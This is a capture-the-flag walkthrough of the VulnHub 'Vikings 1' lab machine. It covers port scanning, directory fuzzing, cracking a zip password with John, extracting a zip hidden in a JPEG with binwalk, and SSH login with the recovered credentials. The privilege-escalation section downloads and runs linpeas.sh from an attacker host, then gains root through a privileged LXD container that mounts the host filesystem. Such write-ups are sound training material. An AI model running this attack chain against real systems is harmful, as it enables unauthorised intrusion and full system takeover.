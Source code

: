 ```http
https://www.vulnhub.com/entry/vikings-1,741/
```

```IP
192.168.3.184
```
___
# Recon
## Nmap 
```bash
sudo nmap -p- -sC -sV -Pn -T5 192.168.3.184 -vv
```

```resoults
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 59:d4:c0:fd:62:45:97:83:15:c0:15:b2:ac:25:60:99 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCl/nNxpgD8pBLaBEjssXfC9g5KX5nL/B5EX8DOEFoX26y5GBVEIy48QNZl1/DcrfSgz4zhNFsN1JfYozwR5ejGJME/uXU/+Pfh0jolHfoWeeOQ+HxYGzfLVSi3+lwFeEv5kO+0tcDxoJtGN71DrNWR6AiJY8GMj5rfKq3s2Xls4MQI28ceEeGJ/3f7kza2tCI1Qdmf3aZx0Vwi6rSzjrh8B/YRGilYg12LQi/Es/0z7W5Bmk2jpQ13yEXEmnDYsdro9mfwxs7EbRO6PAZiUKjBp66YQOCCUHcnVGqtCgOjp4W4PXuJqiyAXE1CZve571/PKjZDWE6XjWO1KtxEse/n
|   256 7e:37:f0:11:63:80:15:a3:d3:9d:43:c6:09:be:fb:da (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAm7Q4EltppImi4EqXSAmew9iBHJ49VZtJJpkg/7HBwtFsjQVdiVi4Ql7rUfDtPs0H+aKBJboRzFuTMN6vLSBxU=
|   256 52:e9:4f:71:bc:14:dc:00:34:f2:a7:b3:58:b5:0d:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPqyW1YOWvhciEBwaZUzRr6p6BvuZBU1S2AynD+HRSZb
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.29
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2020-10-29 21:07  site/
|_
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

> [!important]
> 22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0
> 80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.29

___
## WEB

> [!Web]
> 80/tcp open http syn-ack ttl 64 Apache httpd 2.4.29

```http
http://192.168.3.184/site/
```

```bash 
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt:FFUZ -u http://192.168.3.184/site/FFUZ.txt -ic -c 
```

```http
http://192.168.3.184/site/war.txt
```

## Texts
```http
http://192.168.3.184/site/war-is-over/
```

```bash
file text 
text: ASCII text, with very long lines (65536), with no line terminators
```

```bash
cat text | base64 -d | >> text1
```

![[20250514191017.png]]

## John
> [!Cheats]
> https://medium.com/@rundcodehero/cracking-a-password-protected-zip-file-with-john-the-ripper-a-hands-on-guide-1aea0f6b3627

```bash
zip2john text1 > hash.txt
```

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![vikings](https://raw.githubusercontent.com/GooseGusevich/Vulnhub/refs/heads/main/vikings/screenshots/20250514192446.png)
___

## Shorthand?
```bash
exiftool king 
```

```resoults
n/a
```
___

![vikings](https://raw.githubusercontent.com/GooseGusevich/Vulnhub/refs/heads/main/vikings/screenshots/20250514193156.png)

```resoults
n/a
```
___

```bash
binwalk king.jpeg
```

```bash resoults
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, EXIF standard
12            0xC             TIFF image data, big-endian, offset of first image directory: 8
1429567       0x15D03F        Zip archive data, at least v2.0 to extract, compressed size: 53, uncompressed size: 92, name: user
1429740       0x15D0EC        End of Zip archive, footer length: 22
```


```bash
binwalk -e king.jpeg 
```

![vikings](https://raw.githubusercontent.com/GooseGusevich/Vulnhub/refs/heads/main/vikings/screenshots/20250514194005.png)


```creds
//FamousBoatbuilder_floki@vikings                                     
//f@m0usboatbuilde7 
```


# SSH

> [!Open Pors SSH services]
> 22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)

```bash 
floki:f@m0usboatbuilde7
```
___

# LPE
![vikings](https://raw.githubusercontent.com/GooseGusevich/Vulnhub/refs/heads/main/vikings/screenshots/20250514194835.png)
## Flag1
![vikings](https://raw.githubusercontent.com/GooseGusevich/Vulnhub/refs/heads/main/vikings/screenshots/20250514195142.png)

```bash
wget http://192.168.3.182/linpeas.sh && chmod +x linpeas.sh  && ./linpeas.sh 
```
![vikings](https://raw.githubusercontent.com/GooseGusevich/Vulnhub/refs/heads/main/vikings/screenshots/20250514195812.png)
![vikings](https://raw.githubusercontent.com/GooseGusevich/Vulnhub/refs/heads/main/vikings/screenshots/20250514195821.png)

# LXD groups

```http
https://amanisher.medium.com/lxd-privilege-escalation-in-linux-lxd-group-ec7cafe7af63
```

```bash
wget 192.168.3.182/lxd-alpine-builder/alpine-v3.13-x86_64-20210218_0139.tar.gz
```

```bash
lxc storage create LPE dir
lxc storage list
lxc init myimage ignite -c security.privileged=true
lxc init myimage ignite -c security.privileged=true -s LPE
lxc config device add ignite host-root disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite -- sh
```


![vikings](https://raw.githubusercontent.com/GooseGusevich/Vulnhub/refs/heads/main/vikings/screenshots/20250514214141.png)
# Flag2
![vikings](https://raw.githubusercontent.com/GooseGusevich/Vulnhub/refs/heads/main/vikings/screenshots/20250514214237.png)